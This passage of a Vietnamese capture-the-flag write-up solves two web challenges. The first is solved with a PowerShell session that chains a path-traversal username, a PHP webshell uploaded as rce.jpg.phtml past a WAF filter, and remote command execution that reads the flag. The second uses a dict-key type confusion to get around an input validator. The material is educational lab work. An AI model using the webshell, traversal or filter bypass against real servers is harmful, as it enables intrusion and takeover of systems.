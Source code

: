 Gọi trực tiếp `/rce.jpg.phtml` vì file đã được ghi thẳng vào docroot do trước đấy dùng path traversal.

```bash
PS C:\Users\biscuit\Desktop>
PS C:\Users\biscuit\Desktop> $BASE = 'http://127.0.0.1:63936'
PS C:\Users\biscuit\Desktop> $U    = '../../../../../var/www/html'   # traversal tới /var/www/html
PS C:\Users\biscuit\Desktop> $P    = 'p@ssw0rd'
PS C:\Users\biscuit\Desktop> curl.exe -s -c c.txt -X POST "$BASE/?page=register" --data-urlencode "username=$U" --data-urlencode "password=$P"
PS C:\Users\biscuit\Desktop> curl.exe -s -b c.txt -c c.txt -X POST "$BASE/?page=login"    --data-urlencode "username=$U" --data-urlencode "password=$P"
PS C:\Users\biscuit\Desktop> # tạo webshell
PS C:\Users\biscuit\Desktop> Set-Content -Path .\s.php -Value '<?php system($_GET["c"]); ?>' -Encoding ASCII -NoNewline
PS C:\Users\biscuit\Desktop> # upload qua đường tắt WAF: page=%75pload
PS C:\Users\biscuit\Desktop> # lấy đuôi = 'jpg'
PS C:\Users\biscuit\Desktop> curl.exe -s -b c.txt -F "avatar=@s.php;type=image/jpeg;filename=rce.jpg.phtml" "$BASE/?page=%75pload"
PS C:\Users\biscuit\Desktop> # RCE và đọc flag 
PS C:\Users\biscuit\Desktop> curl.exe -G -s --data-urlencode "c=whoami"         "$BASE/rce.jpg.phtml"
www-data
PS C:\Users\biscuit\Desktop> curl.exe -G -s --data-urlencode "c=cat /flag.txt"  "$BASE/rce.jpg.phtml"
HOLACTF{I_really_love_EHCCCCC_b3c78f2d5c35}
PS C:\Users\biscuit\Desktop>
```
`FLAG: HOLACTF{I_really_love_EHCCCCC_b3c78f2d5c35}`

# WEB - Sanity check

```text
Author
ductohno

Description
Chào mừng bạn ghé thăm website “vibe coding” của mình! Thực ra mình dựng nó chỉ để test xem server cần oxi không thôi, nhưng ở đâu đó vẫn có vài lỗi nho nhỏ đang ẩn mình. Liệu bạn có tìm ra chúng không?
```

Mình thấy ở `/update` duyệt sẽ check valid input như sau: duyệt `for char in data['data']` rồi ép `int(char)` ∈ {0,1}. Nếu `data['data']` là dict thì vòng lặp đi qua **key**. Nên mình sẽ tạo đúng 512 key sao cho `int(key)` luôn là 0 hoặc 1, rồi gắn một value chứa `"Holactf"`. Server lưu `str(dict)` vào file nên chuỗi `"Holactf"` xuất hiện. `/get_flag` chỉ cần `"Holactf" in data` nên trả flag.

```python
def is_valid_input(input):
    """Check if input is valid or not"""
    if input == '' or len(input) != NUMBER_OF_BITS:
        return False
    try:
        for char in input:
            if int(char) != 0 and int(char) != 1:
                return False
    except ValueError:
        return False
    return True
```
